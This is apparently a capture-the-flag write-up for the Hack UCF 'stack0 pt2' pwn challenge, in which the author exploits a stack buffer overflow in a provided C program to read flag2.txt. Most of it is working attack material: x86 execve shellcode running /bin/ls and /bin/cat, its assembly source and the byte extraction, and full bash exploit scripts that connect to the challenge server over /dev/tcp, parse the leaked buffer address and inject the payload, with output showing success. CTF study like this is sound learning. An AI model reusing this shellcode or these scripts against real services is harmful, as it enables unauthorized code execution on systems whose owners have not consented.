

# stack0 pt2
**Category:** Pwn

**Points:** 100

**Description:**

Author: C0deH4cker

nc ctf.hackucf.org 32101

This is the same program as stack0 part 1. Now, read the contents of flag2.txt.

> **Files:** stack0, stack0.c and libpwnableharness32.so

## Write-up
>Note: The scripts in this solution work with Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3, the line in the script that sets the the byte values of the code should be changed to (for example):
>
> send_str=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + b"A"*26)')

This is a buffer overflow challenge, building on [Pwn_stack0pt1](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_stack0pt1), and the code file was provided.

I ran the program to remind myself of how it worked:
```bash
> ./stack0
Debug info: Address of input buffer = 0xff862aed
Enter the name you used to purchase this program: fred
This program has not been purchased.
```
Looking at the code, and the `handle_connection()` function, it contains a `read()` call into a buffer of 50 chars (though the `read()` takes up to 1024 characters):
```c
static void handle_connection(int sock) {
	bool didPurchase = false;
	char input[50];
	
	printf("Debug info: Address of input buffer = %p\n", input);
	
	printf("Enter the name you used to purchase this program: ");
	read(STDIN_FILENO, input, 1024);
	
	if(didPurchase) {
		printf("Thank you for purchasing Hackersoft Powersploit!\n");
		giveFlag();
	}
	else {
		printf("This program has not been purchased.\n");
	}
}
```
In the first program, we overran the `input[]` buffer and it got us into the `giveFlag()` function:
```c
/* Filename of the first flag */
static const char* flagfile = "flag1.txt";

/* Send the user the contents of the first flag file. */
static void giveFlag(void) {
	char flag[64];
	FILE* fp = fopen(flagfile, "r");
	if(!fp) {
		perror(flagfile);
		return;
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	
	printf("Here is your first flag: %s\n", flag);
}
```
If we call this function at any time, however, it will always use `flag1.txt` as set in the `flagfile` variable.

The string containing the flag file name is in the data section of the program, so we can't directly change that with an overflow, but maybe we can do what we did in [Pwn super-stack](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_super-stack) and put some code in the input buffer.

First I created an input file with 49 `A` characters in it to pass to the `read()` statement in the program:
```
> python -c "print('A'*49)" > inp.txt
```

This ensures we fill our 50-character input buffer with `A` characters, and the `0x0A` that's tagged on the end. Looking at the stack in [IDA Pro](https://github.com/neuronflicker/CTF/blob/master/UsefulNotes/ida.md) while the program was running, we can see the input buffer, and (highlighted in green) the return address we need to target:


We can see we need to send 63 characters to fill the stack space, and then we can change the return address.

So we can take the script from [Pwn super-stack](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_super-stack) and update it to account for the buffer size of this program:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "A"*26)')
send_str=$send_str$(python -c "print('$hex_addr')")

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
The code has 37 characters in it, so we add an extra 26 to make up the 63 we need. Then we add the address of the buffer as the return address. This initial code is our `ls` code, so the output from running this script is:
```
> ./hack_stack0pt2.sh 
Found: Debug info: Address of input buffer = 0xff8c084d
Extracted: ff8c084d
As hex chars (little endian): \x4d\x08\x8c\xff
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
Here is your first flag: flag{<flag from stack0pt1 was here>}

flag1.txt
flag2.txt
stack0
```
So we could just add our `cat` code and see the contents of the `flag2.txt` file, but let's try something different. Let's see if we can change the `flagfile` `const char*` string from `flag1.txt` to `flag2.txt` and then call `giveFlag()` to get the contents. I don't know if this is possible as the string is in a data segment marked as read-only, but let's try. It may depend on how the code was compiled.

First we find the location of the `flagfile` string within the executable:


We can see that it's at `0x08048860`. Note that the `1` we want to change to a `2` will actually be at `0x08048864`. 

We also need the location of the `giveFlag()` function:



This is at `0x080486AB`.

Now we can write some assembly language to try to change `flag1.txt` to `flag2.txt` and jump into the `giveFlag()` function.

First, I wrote some code to check I have a working piece of assembly language before inserting it in the input buffer:
```asm
# Write to address and jump to function
    global _start
    section .text

_start:
    mov byte [fname+4], 0x32
    jmp printFunc
    ret

printFunc:
  xor eax, eax
  mov ecx, fname      ; Message address in RSI
  mov al, 4           ; System interupt for write (for 32-bit)
  xor ebx, ebx
  mov bl, 1           ; Use stdout
  xor edx, edx
  mov dl, 10          ; Number of bytes
  int 0x80
  mov al, 1           ; Now exit
  xor ebx, ebx        ; With status 0
  int 0x80

  section .data
fname:
  db "flag1.txt", 10
```
This changes the data, and prints out the result to check the code is correct. It was compiled and run with:
```
> nasm -felf change_filename.asm -o change_filename.o && ld -m elf_i386 -o change_filename change_filename.o
> ./change_filename 
flag2.txt
```
So now that works, we can write our actual code which is much smaller:
```asm
# Write to address and jump to function
    global _start
    section .text

_start:
    mov byte [0x08048864], 0x32   ; Change flag1.txt to flag2.txt
    call [0x080486AB]             ; Call giveFlag()
```
Again, this was compiled with:
```
> nasm -felf change_filename.asm -o change_filename.o && ld -m elf_i386 -o change_filename change_filename.o
```
and the codes we need for our script was output with:
```
> objdump -d ./change_filename|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xc6\x05\x64\x88\x04\x08\xff\x25\xab\x86\x04\x08"
```
This is now only 12 bytes long, so we'll have to pad our string with 51 A's to fill the buffer before writing the address to call our code. The final script for this is:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c 'print("\xc6\x05\x64\x88\x04\x08\xff\x15\xab\x86\x04\x08" + "A"*51)')
send_str=$send_str$(python -c "print('$hex_addr')")

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3

echo .

# Close the socket
exec 3<&-
```
I couldn't get this to work (after playing around with it for a while), as the attempt to access the `flagfile` variable seems to cause a segmentation fault. This isn't unexpected, so I went back to just using `cat flag2.txt` as per previous challenges. The assembly code was:
```asm
# /bin/cat .//flag2.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (.//flag2.txt ) to the stack
         push 0x3267616c            ; Use .// to fit to a 32-bit stack
         push 0x662f2f2e
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (.//flag2.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80
```
> Note: This uses `.//flag2.txt` rather than just `flag2.txt` as we need to align to the 32-bit stack. This means the values pushed to the stack have to be in sets of 4 bytes, so `flag2.txt` would leave a single byte.
>
> First I tried `fla*.txt` as I thought it might list all flag files, but this doesn't work because we're running through `execve()` and not in a shell, so no wildcard substitution happens.
>
> Then I tried to pad with three spaces to give `flag2.txt   `, but the `read()` in the code ate two of the spaces and so messed up the byte values, changing the code.
>
> Next I tried with the relative path and a space at the end to pad - `./flag2.txt `, but `execve()` treated the space as part of the filename.
>
> Finally, I tried the `.//flag2.txt` which worked, but not before we had another issue.

The above code was compiled and converted with:
```
> nasm -felf cat_code.asm -o cat_code.o && ld -m elf_i386 -o cat_code cat_code.o
> objdump -d ./cat_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I then checked the number of bytes with:
```
> echo "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" | tr -cd x | wc -c
56
```
So we have 56 characters, which fits nicely in our buffer. We just need to pad by 7 characters to make our necessary 63. I put this in the previous script and ran it, but there is a problem with this code. When performing the pushes in the code, the buffer gets overwritten as the stack fills into it. This means the code is corrupted and doesn't work. The `ls` from earlier works because the code is small enough.

Maybe we can put the code further down the stack and call it there. This will mean using 63 `A` characters to fill the buffer, followed by the address of where we are going to put our code, which will be immediately after the return address. Our new return address needs to be the buffer start + 67 (0x43) bytes. The 67 is the length of the buffer plus the length of the return address. To do this, our final script becomes:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo "Extracted: $buf_addr"

# Add on our 67 (0x43) bytes as the code will
# be after the return address
buf_addr=$(printf '%x' $((0x$buf_addr + 0x43)))
echo "Final address: $buf_addr"

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# Fill the buffer with As, followed by the address of
# the buffer location + 67 as the return address, 
# then the code to execute
send_str=$(python -c "print('A'*63)")
send_str=$send_str$(python -c "print('$hex_addr')")
send_str=$send_str$(python -c 'print("\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80")')

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3

echo Done!

# Close the socket
exec 3<&-
```
I ran this and got:
```
./hack_stack0pt2.sh Found: Debug info: Address of input buffer = 0xffa61e5d
Extracted: ffa61e5d
Final address: ffa61ea0
As hex chars (little endian): \xa0\x1e\xa6\xff
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
Here is your first flag: flag{<flag from stack0pt1 was here>}

flag{<flag from this challenge was here>}
Done!
```
This worked and gave us the flag!
